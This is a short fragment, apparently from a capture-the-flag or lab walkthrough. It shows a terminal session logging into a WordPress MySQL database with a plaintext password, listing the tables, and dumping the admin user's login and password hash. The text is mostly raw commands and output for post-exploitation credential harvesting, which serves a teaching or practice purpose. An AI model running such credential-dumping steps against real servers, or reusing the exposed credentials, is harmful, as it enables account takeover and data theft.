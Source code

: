 ```bash
```

Logging in and dumping the database:
```bash
$ mysql -uwpuser -p
w0rdpr3$$d@t@b@$3@cc3$$
Welcome to the MySQL monitor.  Commands end with ; or \g.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| wp                 |
+--------------------+
2 rows in set (0.00 sec)

mysql> use wp;
Database changed

mysql> show tables;
+-----------------------+
| Tables_in_wp          |
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_gwolle_gb_entries  |
| wp_gwolle_gb_log      |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
14 rows in set (0.00 sec)

mysql> describe wp_users;
+---------------------+---------------------+------+-----+---------------------+----------------+
| Field               | Type                | Null | Key | Default             | Extra          |
+---------------------+---------------------+------+-----+---------------------+----------------+
| ID                  | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
| user_login          | varchar(60)         | NO   | MUL |                     |                |
| user_pass           | varchar(255)        | NO   |     |                     |                |
| user_nicename       | varchar(50)         | NO   | MUL |                     |                |
| user_email          | varchar(100)        | NO   | MUL |                     |                |
| user_url            | varchar(100)        | NO   |     |                     |                |
| user_registered     | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| user_activation_key | varchar(255)        | NO   |     |                     |                |
| user_status         | int(11)             | NO   |     | 0                   |                |
| display_name        | varchar(250)        | NO   |     |                     |                |
+---------------------+---------------------+------+-----+---------------------+----------------+
10 rows in set (0.01 sec)

mysql> select user_login,user_pass from wp_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 |
+------------+------------------------------------+
```